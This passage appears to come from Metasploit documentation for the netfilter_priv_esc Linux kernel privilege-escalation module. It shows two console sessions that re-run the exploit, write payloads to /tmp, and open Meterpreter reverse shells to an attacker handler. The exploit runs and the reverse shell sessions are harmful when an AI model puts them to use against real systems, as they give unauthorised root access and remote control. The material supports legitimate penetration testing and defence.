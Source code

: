 #### Re-exploit

In this scenario, we already exploit the box, for whatever reason our shell died.  So now we want to re-exploit, but we dont need to run desc again.

    msf exploit(netfilter_priv_esc) > set reexploit true
    reexploit => true
    msf exploit(netfilter_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [+] libc6-dev-i386 is installed
    [+] gcc-multilib is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing payload to /tmp/egMfQrrI
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/Yf8CAdMu.c
    [*] Max line length is 65537
    [*] Writing 1326 bytes in 1 chunks of 4699 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:60984) at 2016-09-24 17:29:06 -0400
    [+] Deleted /tmp/egMfQrrI
    [+] Deleted /tmp/Yf8CAdMu.c
    [+] Deleted /tmp/Yf8CAdMu
    
    meterpreter > 

#### Re-exploit w/ pre-compiled binaries

    msf exploit(netfilter_priv_esc) > set reexploit true
    reexploit => true
    msf exploit(netfilter_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Checking if 32bit C libraries, gcc-multilib, and gcc are installed
    [+] libc6-dev-i386 is installed
    [-] gcc-multilib is not installed.  Compiling will fail.
    [-] gcc is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Checking if ip_tables is loaded in kernel
    [+] ip_tables.ko is loaded
    [*] Checking if shem or sham are installed
    [+] shem and sham not present.
    [*] Writing payload to /tmp/2016_4997_payload
    [*] Max line length is 65537
    [*] Writing 155 bytes in 1 chunks of 455 bytes (octal-encoded), using printf
    [*] Writing pwn executable to /tmp/SZrv2NOR
    [*] Max line length is 65537
    [*] Writing 8456 bytes in 1 chunks of 22023 bytes (octal-encoded), using printf
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 192.168.2.137
    [*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.137:60996) at 2016-09-24 20:47:03 -0400
    
    meterpreter > 
